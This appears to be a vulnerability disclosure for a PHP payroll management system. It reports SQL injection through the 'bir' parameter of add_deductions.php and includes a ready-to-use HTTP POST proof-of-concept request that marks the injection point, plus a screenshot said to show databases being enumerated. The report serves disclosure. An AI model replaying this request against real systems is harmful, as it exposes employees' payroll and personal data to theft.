 # payroll-management-system-in-php has sql injection in add_deductions.php

## supplier 
https://code-projects.org/payroll-management-system-in-php-with-source-code/
## Vulnerability parameter
add_deductions.php

## describe

An unrestricted SQL injection attack exists in payroll-management-system in add_deductions.php. The parameters that can be controlled are as follows: $bir. This function executes the $bir parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   $birparameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/857c4c8b-7184-4be0-a7f1-ae35abb5b9f9)



## POC

```
POST /add_deductions.php HTTP/1.1
Host: payroll
Content-Length: 75
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://payroll
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://payroll/home_employee.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=85u4m47klj7ldjr47mclti8mr6
Connection: close

deduction_id=1&philhealth=2&bir=3*&gsis=4&pag_ibig=5&loans=6
```

**Result**

get databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
